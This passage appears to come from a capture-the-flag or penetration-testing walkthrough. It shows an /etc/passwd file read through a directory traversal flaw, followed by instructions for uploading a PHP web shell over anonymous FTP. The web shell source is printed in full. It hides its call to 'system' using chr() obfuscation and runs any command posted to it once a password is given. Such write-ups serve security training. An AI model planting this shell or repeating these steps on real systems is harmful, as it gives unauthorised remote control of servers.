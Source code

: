 ```http
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi-autoipd:x:107:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
avahi:x:113:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:114:121::/var/lib/saned:/usr/sbin/nologin
colord:x:115:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:116:123::/var/lib/geoclue:/usr/sbin/nologin
tom:x:1000:1000:Tom,,,:/home/tom:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:118:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```
> Directory traversal vulnerability confirmed!
{: .prompt-info }

Now let us test if it is also possible to load a `PHP` file and get it interpreted by trying a `webshell` upload.

## escalating to a web shell
### uploading a webshell via anonymous ftp access

We now upload the following webshell to the `ftp` service we identified in our discovery phase where `anonymous` access is allowed.

```php
<?php

$pass = "9cdfb439c7876e703e307864c9167a15"; //lol 

$A = chr(0x73);
$B = chr(0x79);
$X = chr(0x74);
$D = chr(0x65);
$E = chr(0x6d);

$hook = $A.$B.$A.$X.$D.$E;

if($pass == md5($_POST['password']))
{
  $hook($_POST['cmd']);
}
else
{
  die();
}

?>
```
> When uploading to a `vsftpd 3.0.3` server the default upload folder is `/var/ftp/pub/` (Linux)
{: .prompt-info }
